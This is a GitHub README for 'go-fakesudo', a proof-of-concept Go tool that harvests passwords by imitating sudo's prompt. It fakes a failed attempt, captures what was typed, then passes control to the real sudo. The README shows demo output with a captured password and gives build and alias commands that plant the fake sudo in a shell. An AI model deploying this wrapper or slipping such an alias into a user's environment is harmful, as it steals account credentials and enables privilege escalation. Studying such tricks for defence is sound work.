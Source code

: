 # go-fakesudo
Proof of concept Go code for recording a password by hijacking sudo.

> Get someone's password by asking for it on the right moment.

## Concept 

The idea of this code is to wrap the 'sudo' command, to ask for the password in the same way sudo does, before handing over control to the real sudo command.

Note that in current form, it prints the password in the console, instead of sending it to somewhere:

```
rvben@pc:~/go-fakesudo$ ./fakesudo ls -al
[sudo] password for rvben: 
Sorry, try again.

Password typed: mypassword
[sudo] password for rvben: 
Makefile  README.md  fakesudo  fakesudo.go
```

## Getting started
1. Build fakesudo
```bash
go build fakesudo.go
```

2. Set alias
```bash
alias sudo='`pwd`/fakesudo'
```

3. Use sudo
```bash
$ sudo vim /etc/hosts
[sudo] password for rvben:
```